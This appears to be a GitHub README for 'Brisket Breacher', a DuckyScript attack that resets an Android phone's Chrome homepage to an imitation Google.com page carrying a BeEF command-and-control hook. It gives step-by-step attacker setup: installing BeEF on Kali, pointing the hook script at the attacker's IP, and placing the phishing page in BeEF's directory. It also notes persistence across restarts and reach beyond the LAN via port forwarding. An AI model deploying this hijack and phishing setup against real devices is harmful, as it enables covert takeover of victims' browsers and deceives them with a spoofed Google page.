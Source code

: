 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, it won't matter, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
- **Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box.**
  - Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  - Install BeEF:
    - `sudo apt install beef-xss -y`
  - Download the [homepage.html](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/homepage.html) file (described next). This will be the homepage that our malicious URL will point to and deliber the BeEF C2 hook.
      - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file.
      - Become root: `sudo su`.
      - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

